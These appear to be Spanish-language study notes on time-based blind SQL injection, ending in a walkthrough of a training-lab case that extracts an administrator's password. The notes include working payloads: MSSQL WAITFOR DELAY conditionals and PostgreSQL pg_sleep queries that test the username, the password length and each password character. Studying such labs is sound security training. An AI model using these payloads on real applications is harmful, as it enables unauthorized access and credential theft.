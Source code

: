 
Si la aplicación detecta errores de la base de datos cuando se ejecuta la consulta SQL y los maneja correctamente, no habrá ninguna diferencia en la respuesta de la aplicación. Esto significa que la técnica anterior para inducir errores condicionales no funcionará.

En esta situación, a menudo es posible explotar la vulnerabilidad de la inyección SQL ciega activando retrasos dependiendo de si una condición inyectada es verdadera o falsa. Como las consultas SQL normalmente las procesa la aplicación de forma sincrónica, retrasar la ejecución de una consulta SQL también retrasa la respuesta HTTP. Esto le permite determinar la verdad de la condición inyectada en función del tiempo necesario para recibir la respuesta HTTP.

## Explotación de la inyección SQL ciega provocando retrasos de tiempo - Continuación

Las técnicas para activar un retraso de tiempo son específicas del tipo de base de datos que se utiliza. Por ejemplo, en Microsoft SQL Server, puede utilizar lo siguiente para probar una condición y desencadenar un retraso dependiendo de si la expresión es verdadera:

```
; IF (1=2) WAITFOR DELAY '0:0:10'-- 
';IF (1=1) WAITFOR DELAY '0:0:10'--
```

- La primera de estas entradas no desencadena un retraso porque la condición `1=2`es falsa.
- La segunda entrada desencadena un retraso de 10 segundos, porque la condición `1=1`es verdadera.

Usando esta técnica, podemos recuperar datos probando un carácter a la vez:

`'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`

## Caso 25: Inyección SQL ciega con retardos de tiempo y recuperación de información

Los resultados de la consulta SQL no se devuelven y la aplicación no responde de manera diferente en función de si la consulta devuelve alguna fila o provoca un error. Sin embargo, dado que la consulta se ejecuta de forma sincrónica, es posible activar retrasos de tiempo condicionales para inferir información.

La base de datos contiene una tabla diferente llamada `users`, con columnas llamadas `username`y `password`. Debe aprovechar la vulnerabilidad de inyección ciega de SQL para descubrir la contraseña del `administrator`usuario.

Para resolver la práctica de laboratorio, inicie sesión como `administrator`usuario.



';select case when (1=1) then pg_sleep(5) else pg_sleep(1) end--

![[Pasted image 20240612155651.png]]
![[Pasted image 20240612155711.png]]


';select case when (username='administrator') then pg_sleep(5) else pg_sleep(1) end from users--

![[Pasted image 20240612155822.png]]
![[Pasted image 20240612155920.png]]

';select case when (username='administrator'and length(password)>=20) then pg_sleep(5) else pg_sleep(1) end from users--

![[Pasted image 20240612160103.png]]
![[Pasted image 20240612160123.png]]

';select case when (username='administrator'and substring(password,20,1)='§a§') then pg_sleep(5) else pg_sleep(1) end from users--

![[Pasted image 20240612160241.png]]
![[Pasted image 20240612153818.png]]
![[Pasted image 20240612154015.png]]

